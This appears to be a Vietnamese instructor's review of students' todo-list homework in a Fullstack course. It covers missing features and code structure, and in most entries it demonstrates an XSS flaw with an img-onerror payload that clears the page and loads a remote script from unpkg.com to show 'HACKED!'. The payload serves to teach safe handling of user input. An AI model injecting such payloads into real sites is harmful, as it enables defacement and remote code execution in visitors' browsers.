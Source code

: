 # Dương review bài học viên lớp K1-Fullstack

## [Luu Anh Quan](https://anhquan2211.github.io/F8-OFFLINE/f8-offline-day24/index.html)

- [x] [Bài 1]

  Bài làm rất tốt\*

  Thiếu case sau khi submit thì focus lại vào input.

  Đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```html
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

  Các file App.js, Footer.js, Header.js nên tách ra thành các phần của folder layout để tránh bị rối với các components khác.

- [x] Đánh giá chung bài tập về nhà: Bài tập làm rất tốt, có hướng làm theo cách quản lý state và cập nhật DOM của React+redux.

---

## [Trung Le](https://github.com/Trungdeptraii/22-08-2023-Le-Van_Trung-Day24.git)

- [x] [Bài 1]

  Bài làm rất tốt\*

  Thiếu case thêm task bằng cách nhấn `enter`.

  - Có thể sử dụng thẻ form để có sự kiện mặc định đó.

  Đang sử dụng value trực tiếp từ input chưa qua xử lý để đưa vào HTML, việc làm này rất dễ gặp lỗi tấn công XSS

  ```html
  "/><img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

  Các element get nhiều, có thể sử dụng một cách khác ngắn gọn hơn để lấy phần tử:

  ```js
  var $ = (tag) => document.querySelector(tag);
  var $$ = (tag) => document.querySelectorAll(tag);
  ```

  Các style nên sử dụng class Css để dễ dàng trong việc xử lý style tốt hơn.

- [x] Đánh giá chung bài tập về nhà: Bài tập làm rất tốt, tuy nhiên cần tối ưu lại phần chọn element để bài làm đỡ rối hơn.

---

## [Dương Quốc Anh](https://github.com/QuocAnh-bit/F8_fullstack_006/blob/main/buoi_24/js/ex01.js)

- [x] [Bài 1]

  Bài làm tốt\*

  Có thể phát triển thêm sau khi submit **bằng button** thì focus lại vào input.

  Case sửa input đang bị lỗi khi có từ 2 task trở lên thì sẽ bị sai value cũ của input, sau khi sửa, input không còn ở đúng vị trí của nó. Mà sẽ xuống cuối cùng.

  Chưa check trường hợp sau khi sửa, input rỗng vẫn được lưu.

  Đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```html
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- [x] Đánh giá chung bài tập về nhà: Bài tập làm tốt, tuy nhiên còn một số case chưa hoàn thiện tốt.

---

## [Duy Hiếu Nguyễn](https://hieuboss.github.io/F8-fullstack-k2/javascript/lesson9/ex1/ex1.html)

- [x] [Bài 1]

  Bài làm chưa tốt

  Thiếu 2 case quan trọng: Sửa, xóa task.

  Đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```html
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- [x] Đánh giá chung bài tập về nhà: Bài tập làm chưa tốt, thiếu các case quan trọng khiến bài làm chưa hoàn thiện.

---

## [Phan Trung Hiếu](https://github.com/pth2003/FullStack_Nodejs_K1/blob/main/BTVN/btvn_buoi_24/script.js)

**Chưa có github page**

- [x] [Bài 1]

  Bài làm chưa tốt

  Thiếu 1 case quan trọng: Sửa

  Đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```html
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- [x] Đánh giá chung bài tập về nhà: Bài tập làm chưa tốt, thiếu 1 case quan trọng khiến bài làm chưa hoàn thiện.
